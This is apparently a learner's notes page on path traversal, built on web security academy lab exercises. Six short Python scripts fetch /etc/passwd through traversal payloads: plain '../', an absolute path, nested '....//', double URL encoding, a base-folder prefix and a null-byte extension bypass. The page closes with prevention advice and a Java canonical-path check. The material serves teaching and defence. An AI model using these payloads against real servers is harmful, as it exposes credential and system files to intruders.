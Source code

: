 ## What is path traversal?

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

-    Application code and data.
-    Credentials for back-end systems.
-    Sensitive operating system files.

In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

### Reading arbitrary files via path traversal

Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:

`<img src="/loadImage?filename=218.png">`

The loadImage URL takes a filename parameter and returns the contents of the specified file. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:
`/var/www/images/218.png`

This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

The sequence `../` is valid within a file path, and means to step up one level in the directory structure. The three consecutive `../` sequences step up from `/var/www/images/` to the filesystem root, and so the file that is actually read is:
`/etc/passwd`

On Unix-based operating systems, this is a standard file containing details of the users that are registered on the server, but an attacker could retrieve other arbitrary files using the same technique.

On Windows, both ../ and ..\ are valid directory traversal sequences. The following is an example of an equivalent attack against a Windows-based server:

`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

### Lab: File path traversal, simple case

To solve the lab, retrieve the contents of the /etc/passwd file. 

```python
import requests

url = "https://0acd00ba031f53b18291892d007900ab.web-security-academy.net/image?filename=../../../etc/passwd"
r = requests.get(url, cookies={"session=": "qPgKpOYGKBeRiZSgPYU0tCIojM9Htu2k"})
print(r.text)
```

### Common obstacles to exploiting path traversal vulnerabilities

Many applications that place user input into file paths implement defenses against path traversal attacks. These can often be bypassed.

If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as filename=/etc/passwd, to directly reference a file without using any traversal sequences.

### Lab: File path traversal, traversal sequences blocked with absolute path bypass

To solve the lab, retrieve the contents of the /etc/passwd file. 

```python
import requests

url = "https://0add00d8037beea1813ef71f00dc00de.web-security-academy.net/image?filename=/etc/passwd"
r = requests.get(url, cookies={"session=": "zZEjRXdDKf9SbJDSEu8kOB823WrZkBEW"})
print(r.text)
```
### Common obstacles to exploiting path traversal vulnerabilities - Continued

You might be able to use nested traversal sequences, such as `....//` or `....\/`. These revert to simple traversal sequences when the inner sequence is stripped.
### Lab: File path traversal, traversal sequences stripped non-recursively

To solve the lab, retrieve the contents of the /etc/passwd file. 

```python
import requests

url = "https://0a0b006503d63b68831bb4f500100043.web-security-academy.net/image?filename=....//....//....//etc/passwd"
r = requests.get(url, cookies={"session=": "NONOwih9zCCrcxlHpTqAiaZDBHIy5nDV"})
print(r.text)
```
### Common obstacles to exploiting path traversal vulnerabilities - Continued

In some contexts, such as in a URL path or the filename parameter of a multipart/form-data request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
To solve the lab, retrieve the contents of the /etc/passwd file. 
```python
import requests

url = "https://0a8000a7035c0bd382aa15db00da00a1.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd"
r = requests.get(url, cookies={"session=": "W5V6hXMVmzLWYFMgNQZ3yEOtpQIaI8yK"})
print(r.text)
```
### Common obstacles to exploiting path traversal vulnerabilities - Continued

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd.`

### Lab: File path traversal, validation of start of path
To solve the lab, retrieve the contents of the /etc/passwd file. 
```python
import requests

url = "https://0a3400ab0455e7f082bd652600de001a.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd"
r = requests.get(url, cookies={"session=": "KFqzC3IyN1kOM10zIE5uDQV59mWkDnY0"})
print(r.text)
```
### Common obstacles to exploiting path traversal vulnerabilities - Continued

An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`.
### Lab: File path traversal, validation of file extension with null byte bypass.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```python
import requests

url = "https://0ac1005a04052bd3818c661c002c00f2.web-security-academy.net/image?filename=../../../etc/passwd%00.png"
r = requests.get(url, cookies={"session=": "K2WfryxLT3mkUXqI76oOtgkyGcIVYT5P"})
print(r.text)
```

## How to prevent a path traversal attack

The most effective way to prevent path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way.

If you can't avoid passing user-supplied input to filesystem APIs, we recommend using two layers of defense to prevent attacks:

-    Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
-    After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.

Below is an example of some simple Java code to validate the canonical path of a file based on user input:
```
File file = new File(BASE_DIRECTORY, userInput);
if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
} 
```